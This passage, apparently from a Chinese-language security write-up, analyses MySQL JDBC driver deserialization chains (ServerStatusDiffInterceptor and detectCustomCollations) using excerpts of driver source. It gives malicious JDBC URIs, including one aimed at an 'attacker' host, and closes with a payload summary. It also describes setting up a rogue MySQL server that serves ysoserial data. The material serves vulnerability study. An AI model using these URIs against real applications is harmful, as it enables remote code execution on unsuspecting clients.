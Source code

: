 最终走到的 resultSetToMap 方法如下，调用了 getObject()方法

```java
public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
    while (rs.next()) {
        mappedValues.put(rs.getObject(1), rs.getObject(2));
    }
}
```

`ServerStatusDiffInterceptor`实现自 QueryInterceptor 接口，它对应扩展参数 queryInterceptors。那么就可以构造一个恶意的 JDBC URI 来触发反序列化。

```
jdbc:mysql://attacker/db?queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true
```

### detectCustomCollations 调用链

这条链最终也是走到 resultSetToMap 方法，核心是`com.mysql.jdbc.ConnectionImpl#buildCollationMapping()`方法，如果满足版本大于 4.1.0 并且 detectCustomCollations 值为 true，就会调用到 resultSetToMap 方法，最终进行反序列化操作。

```java
if (this.versionMeetsMinimum(4, 1, 0) && this.getDetectCustomCollations()) { // 版本大于4.1.0，detectCustomCollations值为true
    java.sql.Statement stmt = null;
    ResultSet results = null;

    try {
        sortedCollationMap = new TreeMap();
        customCharset = new HashMap();
        customMblen = new HashMap();
        stmt = this.getMetadataSafeStatement();

        try {
            results = stmt.executeQuery("SHOW COLLATION");
            if (this.versionMeetsMinimum(5, 0, 0)) {
                Util.resultSetToMap(sortedCollationMap, results, 3, 2); // 调用resultSetToMap()
        }...
}
```

因为是服务端攻击客户端，还需要一个恶意的 mysql 服务端。这部分可以用工具: <https://github.com/fnmsd/MySQL_Fake_Server>

恶意 mysql 服务器的核心思路是将反序列化数据存储在对应的数据表中对应字段中。以 detectCustomCollations 调用链为例`Util.resultSetToMap(sortedCollationMap, results, 3, 2);`会对第三个字段进行获取，那么就需要创建一张表，列出至少三个字段，并将 `ysoserial` 生成的反序列化数据赋值给第三个字段。

### Payload 总结

#### `ServerStatusDiffInterceptor` 触发

##### 8.x

```java
jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor
```
